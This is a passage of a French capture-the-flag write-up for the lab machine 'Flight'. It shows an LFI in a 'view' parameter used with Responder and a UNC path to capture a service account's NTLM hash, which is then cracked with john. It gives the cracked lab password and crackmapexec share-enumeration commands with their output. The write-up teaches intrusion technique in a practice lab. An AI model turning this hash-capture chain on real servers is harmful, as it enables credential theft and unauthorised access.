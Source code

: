 En cliquant sur le lien `Home` on découvre que le fichier `index.php` affiche des pages via le  paramètre `view`. Après vérification il est vulnérable à une **LFI** nous permettant de récupérer le hash du compte de service utilisé par le serveur web.

## Exploitation de la LFI 

On lance un responder avec la commande `responder -i tun0` et on tente d'inclure un chemin UNC dans notre requête :

![Flight-3](../../Flight-3.png)

On observe la capture du hash du compte `svc_apache` dans `responder`

![Flight-4](../../Flight-4.png)

Le hash récupéré est cassé rapidement à l'aide de `john` et nous offre un premier compte :

| Utilisateur | Mot de passe |
|--- | --- |
| `flight.htb\svc_apache` | `S@Ss!K@*t13 ` |

## Enumération des autorisations de svc_apache

L'utilisateur dispose de droits en lecture sur un certain nombre de partages :

```

└─$ cme smb $TARGET_IP -u "$AD_USER" -p "$AD_PASSWORD" -d "$AD_DOMAIN" --shares | cut -c60- 
/usr/lib/python3/dist-packages/pywerview/requester.py:144: SyntaxWarning: "is not" with a literal. Did you mean "!="?
  if result['type'] is not 'searchResEntry':
      [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
      [+] flight.htb\svc_apache:S@Ss!K@*t13 
      [+] Enumerated shares
      Share           Permissions     Remark
      -----           -----------     ------
      ADMIN$                          Remote Admin
      C$                              Default share
      IPC$            READ            Remote IPC
      NETLOGON        READ            Logon server share 
      Shared          READ            
      SYSVOL          READ            Logon server share 
      Users           READ            
      Web             READ            
```
